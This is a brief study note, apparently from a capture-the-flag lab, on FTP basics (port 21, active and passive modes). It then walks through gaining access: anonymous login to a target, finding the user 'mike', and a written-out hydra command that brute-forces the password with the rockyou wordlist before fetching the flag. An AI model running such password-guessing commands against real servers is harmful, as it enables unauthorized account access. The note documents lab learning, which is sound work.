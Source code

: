 # File Transfer Protocol (ftp)

## info

Standard port 21.
Two channels: one for commands, one for data transfer
Two 'modes':
  - __active__ - client opens port, server connects to it
  - __pasive__ - server opens port, client connects to it


## exploit

misconfigure by logging in anonymous, by typing:
`ftp [IP]`, entering "anonymous", no password

retrieved username Mike.

use _hydra_ to crack password:
`hydra -t 4 -l mike -P /usr/share/wordlists/rockyou.txt.gz -vV [ip] ftp`

connect with `ftp` using username `mike` and password.. `get` the flag.
